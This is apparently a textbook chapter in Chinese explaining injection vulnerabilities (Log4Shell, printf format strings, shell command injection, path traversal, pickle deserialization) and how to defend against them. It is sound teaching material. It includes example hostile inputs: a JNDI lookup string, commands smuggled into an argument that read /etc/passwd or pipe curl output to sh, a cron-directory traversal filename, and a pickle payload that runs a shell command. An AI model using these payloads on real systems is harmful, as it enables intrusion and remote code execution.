


# 第九章　信任的边界

2021 年 12 月，一个 Java 日志库里的功能让全世界的运维人员过了几个不眠之夜。那个功能允许在日志字符串里嵌入一种查找语法，日志输出时会把 `${...}` 里的内容替换成实际的值，比如环境变量、系统属性。有人发现，如果这个查找的目标是一个远程地址，Java 就会去那个地址下载一个类并加载执行。

于是一行看起来人畜无害的日志，比如用户提交的用户名，只要写成 `${jndi:ldap://...}` 的形式，就能让服务器主动连出去，把攻击者的代码拉进来跑。这个漏洞叫 Log4Shell，编号 CVE-2021-44228，评分 10.0。

它和前面几章的漏洞完全不同。没有越界，没有竞态，所有的内存访问都合法。出问题的地方在于，同一段文本在一处被当成数据，在另一处被当成了指令。

## 9.1 一段文本的两种身份

程序处理文本时，总要经过某种解释。SQL 语句要被数据库解析成查询计划，shell 命令要被拆成程序名和参数，HTML 要被浏览器解析成文档树，序列化数据要被还原成对象。这些解析器都需要区分"结构"和"内容"。

```sql
SELECT name FROM users WHERE id = 42
```

在这条语句里，`SELECT`、`FROM`、`WHERE` 是结构，`42` 是内容。解析器看到结构就改变状态，看到内容就填进对应的位置。

注入漏洞的本质是内容越过了那条线，被解析器当成了结构。用户输入 `42 OR 1=1`，如果它被直接拼进字符串，数据库看到的是一条新语句，`WHERE id = 42 OR 1=1`，条件永远成立。

这个模式在所有解释器上都成立，只是表现形式不同。要防住它，得先接受一件事，任何来自外部的字符串都不可信，包括看起来最普通的那几个。

## 9.2 格式化字符串

C 语言的 `printf` 用格式串描述输出的样子，`%d` 表示取一个整数，`%s` 表示取一个字符串，`%x` 表示按十六进制打印。每遇到一个格式符，它就从参数里取一个值。

```c
printf("hello, %s, you are %d\n", name, age);
```

现在看一段写错的代码。

```c
char buf[64];
fgets(buf, sizeof(buf), stdin);
printf(buf);            /* 错在这里 */
```

作者的本意是打印用户输入的内容，正确写法是 `printf("%s", buf)`。写成 `printf(buf)` 之后，用户输入的内容变成了格式串本身。

输入 `%x %x %x %x`，程序会把栈上的四个值按十六进制打印出来。这些值本来是别的函数的局部变量、返回地址、保存的寄存器，现在被泄漏给了输入者。输入 `%s`，程序会把栈上的某个值当成地址，去读那个地址上的字符串，如果地址恰好在可读范围内，内容就被打印出来。

<figure>

<figcaption>图 9-1　格式串位于栈上时的读取顺序。printf 没有拿到真正的参数，就顺着栈往下取，把保存的寄存器、返回地址、局部变量依次当成参数打印出来。</figcaption>
</figure>

更糟的是 `%n`。这个格式符不输出任何东西，它把一个整数写到对应的参数所指的地址上，写入的值是"到目前为止输出了多少个字符"。攻击者可以先用 `%x` 之类的格式符控制输出长度，再用 `%n` 往任意地址写入任意值。

这让格式化字符串成为一个非常强的原语。不需要溢出，不需要覆盖返回地址，就能读写任意内存。2000 年前后这类漏洞非常多，因为日志、提示信息、错误输出到处都在用 `printf(user_input)`。修法也很简单，把格式串写死，用户输入永远作为参数传进去。

## 9.3 命令注入

另一条常见的注入路径是 shell。程序需要执行一条命令时，最省事的写法是把用户输入拼进命令行。

```c
char cmd[256];
snprintf(cmd, sizeof(cmd), "ping -c 1 %s", host);
system(cmd);
```

正常的输入是 `example.com`，命令变成 `ping -c 1 example.com`。如果输入是 `example.com; cat /etc/passwd`，命令就变成了两条，第二条把系统口令文件打印出来。如果输入是 `example.com && curl http://... | sh`，服务器就会从外面下载脚本并执行。

shell 有一整套元字符，分号、与号、管道、反引号、美元括号，任何一个没有被转义，都能把一条命令拆成多条。

```text
;   顺序执行      &&  前一条成功才执行
|   管道          $() 命令替换
`   命令替换      >   重定向
```

防守的办法有两个层次。第一个层次是不经过 shell，直接调用 `execve`，把程序名和参数作为数组传进去。这样即使参数里有分号，它也只是参数的一部分，不会被解释成命令分隔符。

第二个层次是限制参数本身。如果这个参数应该是一个域名，那就校验它只包含字母、数字、点和横线，长度不超过 253 个字符。白名单校验比转义可靠，因为转义要考虑的边界情况太多，而白名单只需要考虑"合法的输入长什么样"。

第二个层次听起来更笨，实际上更管用。所有成熟的系统最后都会走到这条路上，因为"禁止坏字符"永远有漏网的，"只允许好字符"才有可能收敛。

## 9.4 路径穿越

文件路径也有类似的问题。程序要把用户上传的文件保存到 `uploads/` 目录下，直接拼接文件名。

```c
snprintf(path, sizeof(path), "uploads/%s", filename);
```

如果 `filename` 是 `../../etc/cron.d/backdoor`，最终路径就跑到了 `uploads` 外面，写进系统定时任务目录。下一次 cron 执行时，攻击者的脚本就以 root 身份运行了。

这类漏洞叫路径穿越（path traversal），也叫目录遍历。判断它是否存在的一个简单办法，是看程序有没有把用户提供的路径规范化之后再检查前缀。

规范化（canonicalization）是把路径里的 `.`、`..`、多余的斜杠、符号链接全部解析掉，得到一个绝对路径。规范化之后再检查这个路径是不是还在允许的目录下，才是有意义的检查。顺序不能反，先检查再规范化，等于什么都没做。

即便如此，还是有边角情况。大小写不敏感的文件系统、Unicode 归一化、Windows 的短文件名、符号链接指向目录之外，每一种都可能绕过简单的字符串比较。所以更稳的做法是不让用户决定路径，用随机生成的文件名保存，把原始文件名只当作显示用的元数据。

## 9.5 反序列化

最隐蔽的一类注入发生在对象反序列化的时候。

很多语言支持把内存里的对象转换成字节流，之后再还原回来。Java 的 `ObjectInputStream`，Python 的 `pickle`，PHP 的 `unserialize`，都属于这类机制。设计的初衷是方便传输和存储，它们的工作方式是按照字节流里的描述，一步步构造对象、设置字段、调用构造方法。

问题在于，如果这段字节流来自不可信的来源，攻击者就能描述出任意对象图。某些类的析构函数、`readObject` 方法、`__reduce__` 方法会在反序列化过程中被自动调用，如果这些方法里恰好有危险操作，比如执行命令、写文件、发起网络请求，攻击者就能借它们完成想要的动作。这种把多个正常类串联起来达成目的的构造叫 gadget chain。

Python 的例子最直白。

```python
import pickle, os

class Evil:
    def __reduce__(self):
        return (os.system, ("id",))

data = pickle.dumps(Evil())     # 攻击者生成这段字节
pickle.loads(data)              # 受害者一加载，命令就执行了
```

`pickle` 的文档里写得很清楚，它不适合处理不可信的数据。这句话经常被忽略，因为反序列化在代码里看起来只是一个读取操作，不像 `system` 那样一眼就能看出危险。

Log4Shell 属于同一类问题的变体。日志库的查找功能把字符串里的 `${}` 当成语法，语法里可以指定一个远程地址，加载过程会执行代码。修复的方式是限制查找的范围，禁用远程加载。这类修补通常很别扭，因为功能本身是合理的，只是它的能力和"处理一段不可信的文本"这件事不匹配。

## 9.6 一条通用的规则

把上面几种情况放在一起，可以看到同一个结构。数据从外部进来，经过一段代码，进入了某个解释器的语法位置。

<figure>

<figcaption>图 9-2　三种注入共用同一个结构。数据本身没有问题，问题是它跨过了那条虚线，被解释器当成了语法的一部分。</figcaption>
</figure>

对应的防守原则也只有一条，不要让数据进入语法的位置。具体做法按可靠性从高到低排列。

最可靠的是让数据和语法分开传递。SQL 用参数化查询，命令用参数数组，模板引擎用自动转义，日志用固定的格式串。这些机制的共同点是，解释器事先知道哪部分是结构，哪部分是内容，不需要靠字符过滤去猜。
第二层是白名单校验。如果某个字段只能是数字，那就只接受数字；如果是枚举值，那就只接受列表里的值。这一步不需要理解攻击手法，只需要把“合法”定义清楚。

第三层是转义。把危险字符替换成安全的形式，比如把 `<` 换成 `&lt;`，把单引号换成两个单引号。转义容易出错，因为不同的上下文需要不同的转义规则，HTML 属性里的转义和 JavaScript 字符串里的转义不一样，混用就会留下缺口。

最后一层是权限限制。假设注入还是发生了，让它的后果小一点。数据库账号只给必要的表权限，Web 服务用低权限用户运行，容器里不要挂载宿主机的目录。这一层不能阻止入侵，但能限制入侵之后能走多远。

还有一个常见的设计问题值得单独说一句。很多系统习惯在“入口”做一次统一过滤，把所有请求参数过一遍黑名单，然后各处直接使用。这种做法看起来省事，实际上很脆弱，因为同一条数据在 HTML、SQL、URL、日志四个地方需要四种不同的处理，入口处根本不知道它将要去哪里。正确的做法是在使用点做编码，也就是距离解释器最近的那一层负责。入口过滤可以作为辅助，不能当主力。

到这里，第二篇讲完了。漏洞的几种基本形态都过了一遍，内存越界、竞态、注入。它们看起来差别很大，底层却是同一件事，程序对某个前提的信任被打破了。第三篇把这些原理放到网络上，看看在真实的攻防中它们是怎么被组合使用的。
